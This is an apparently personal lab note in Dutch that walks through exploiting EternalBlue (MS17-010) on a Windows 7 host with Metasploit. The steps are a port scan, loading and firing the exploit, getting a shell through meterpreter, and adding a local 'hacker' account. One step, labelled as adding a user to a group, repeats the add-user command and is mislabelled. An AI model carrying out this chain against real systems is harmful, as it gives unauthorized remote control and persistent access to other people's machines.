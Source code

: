 ```yaml
---
title: EternalBlue Windows 7
tags:
  - Import-6cdc
created: 2023-02-23T10:31:20.000Z
modified: 2023-03-21T10:48:47.860Z
---
```


```
Commando Port scan:
└─$ sudo nmap -P 172.16.0.33
```

```
Commando openen msfconsole:
└─$ sudo msfconsole
```

```
Commando laden van exploid:
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
```

```
Commando toevoegen van RHOST:
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS IP
```

```
Commando starten van exploid:
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

![[Pasted image 20230223112706.png]]

> [!WARNING] >
>Het volgende gedeelte word uitgevoerd in de CMD van de windows 7
>

```
Commando binnen treden van de CMD:
meterpreter > execute -f cmd.exe -H -c -i
```

```
Commando aanmaken van nieuwe gebruiker:
C:\$Recycle.Bin>net user /add hacker hacker
```

```
Commando toevoegen gebruiker aan een groep:
C:\$Recycle.Bin>net user /add "gebruikersnaam" "Wachtwoord"
```
